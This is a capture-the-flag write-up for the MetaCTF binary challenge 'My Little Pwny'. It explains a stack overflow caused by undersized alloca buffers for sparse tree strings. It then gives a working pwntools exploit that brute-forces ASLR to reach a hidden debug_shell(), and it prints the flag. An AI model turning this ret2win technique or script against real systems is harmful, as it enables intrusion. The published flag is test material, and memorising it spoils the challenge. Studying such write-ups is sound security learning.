 # My Little Pwny - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/MyLittlePwny.gif)

---

## Challenge Summary

The challenge involves a binary that parses binary tree-like strings into a flat array representation on the stack. Due to a flawed assumption that the tree is fully balanced, the program underallocates stack space when parsing sparse trees. This leads to a stack-based buffer overflow. The attacker can exploit this to partially overwrite the return address and redirect execution to a built-in debug_shell() function using a ret2win strategy. ASLR is bypassed with a brute-force approach targeting the lower 12 bits of the address.

## Binary Information

```bash
$ file christmas_tree.bin
```

![Alt text](img/2.png)

```bash
$ pwn checksec christmas_tree.bin
```

![Alt text](img/3.png)

---

## Static Analysis (IDA Pro)

The `main()` function reads user commands and passes input to `print_tree()` when the `"display"` option is chosen.

![Alt text](img/4.png)

In `print_tree()`, the program:

- Estimates the number of nodes (`estimate_tree_size()`),
- Allocates a stack buffer with `alloca()` based on that size,
- Parses the tree string via `decode_tree()`.

![Alt text](img/5.png)

**Issue:** The estimated size assumes a complete tree. With a deep, sparse tree, `decode_tree()` writes past the small buffer, causing a **stack buffer overflow**. This allows a **partial return address overwrite**, enabling a **ret2win exploit** via the hidden `debug_shell()` function.

---

## Exploit Strategy

Send a deeply nested, sparse tree string that causes the program to allocate a smaller buffer than needed. This triggers out-of-bounds writes on the stack, allowing partial overwrite of the return address. By placing specific characters at precise positions, the attacker overwrites the lower bytes of the return address to redirect execution to the hidden debug_shell() function. ASLR is bypassed by brute-forcing the unknown bits of the address, requiring multiple attempts to successfully gain a shell.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template christmas_tree.bin --host host5.metaproblems.com --port 7521
from pwn import *
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'christmas_tree.bin')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 7521)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Full RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        PIE enabled
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)



while True:
    io = start()


    io.recvuntil(b'Welcome! What would you like to do? : ')
    io.sendline(b"display")
    io.recvuntil(b'Please enter your encoded christmas tree : ')
    io.sendline(b"0()(1()(2()(3(4(()(i))((S)()))())))")
    for i in range(3) :
        io.recvline()

    try:
        io.sendline(b"cat flag.txt")
        flag = io.recvline().strip()
        #log.success(f"FLAG : {flag.decode()}")
        log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

        break

    except:
        io.close()


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

The binary parses strings representing binary trees and stores them in a stack-allocated array. It calculates the required buffer size by counting the number of nodes and assuming the tree is fully balanced. However, this logic fails when the tree is **deep and sparse** (e.g., having only right children), where the **depth exceeds the allocated array size**.

As a result, during deserialization, the program writes **beyond the bounds of the stack buffer**, causing a **stack-based buffer overflow**. Because the stack layout places the return address near the end of the array, carefully crafted input can be used to **partially overwrite the return address**. Although stack canaries are present and **ASLR is enabled**, the attacker leverages:

- **A hidden `debug_shell()` function** (ret2win-style exploitation).
- **Partial return address overwrite** (only lower 2 bytes needed).
- **Brute-force guessing** (\~16 tries on average due to 4 bits of entropy).

This leads to reliable control of execution flow and ultimately a shell, allowing retrieval of the flag.

---

## Flag

```
MetaCTF{0h_chr1stm4s_tr33_h0w_l0v3ly_4r3_y0ur_br4nch3s}
```
